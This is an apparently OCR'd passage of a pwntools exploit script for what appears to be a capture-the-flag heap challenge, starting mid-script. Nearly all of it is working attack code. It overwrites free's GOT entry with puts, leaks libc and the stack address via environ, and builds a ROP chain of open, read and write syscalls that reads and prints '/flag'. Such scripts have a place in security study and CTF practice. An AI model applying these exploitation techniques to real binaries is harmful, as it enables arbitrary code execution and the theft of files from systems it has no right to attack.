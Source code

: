 ```py
    ])) # count = 0

    # we can write way more due to the previous call
    edit(1, pwn.flat([
            # 1==
            0xff, # sz
            exe.sym.stdout, # target
            # 2==
            0x8, # sz
            exe.got.free, # target
            # 3==
            0x8, # sz
            exe.sym.secret_msg, # target
            # 4==
            0xff, # sz
            exe.sym.books # target
        ] + [0] * 0x60, filler = b"\x00"))
    
    # free@got => puts
    edit(2, b"".join([
            pwn.p64(exe.sym.puts)
        ]))
    
    # can print = true
    enable_print(3)

    # libc leak
    libc.address = libc_leak_free(1)
    pwn.log.success(f"libc: {hex(libc.address)}")

    # leak stack (environ)
    edit(4, pwn.flat([
            # 1==
            0xff, # sz
            libc.sym.environ # target
        ], filler = b"\x00"))

    environ = leak_environ(1)
    pwn.log.success(f"environ: {hex(environ)}")

    stackframe_rewrite = environ - 0x150
    pwn.log.success(f"stackframe_rewrite: {hex(stackframe_rewrite)}")

    rop = pwn.ROP(libc, base=stackframe_rewrite)

    # setup the write to the rewrite stackframe
    edit(4, pwn.flat([
            # 1==
            0xff, # sz
            stackframe_rewrite # target
        ], filler = b"\x00"))

    # ROPchain
    rop(rax=pwn.constants.SYS_open, rdi=stackframe_rewrite + 0xde + 2, rsi=pwn.constants.O_RDONLY) # open
    rop.call(rop.find_gadget(["syscall", "ret"]))
    rop(rax=pwn.constants.SYS_read, rdi=3, rsi=heap_leak, rdx=0x100) # file descriptor bf ...
    rop.call(rop.find_gadget(["syscall", "ret"]))

    rop(rax=pwn.constants.SYS_write, rdi=1, rsi=heap_leak, rdx=0x100) # write
    rop.call(rop.find_gadget(["syscall", "ret"]))
    rop.exit(0x1337)
    rop.raw(b"/flag\x00")
```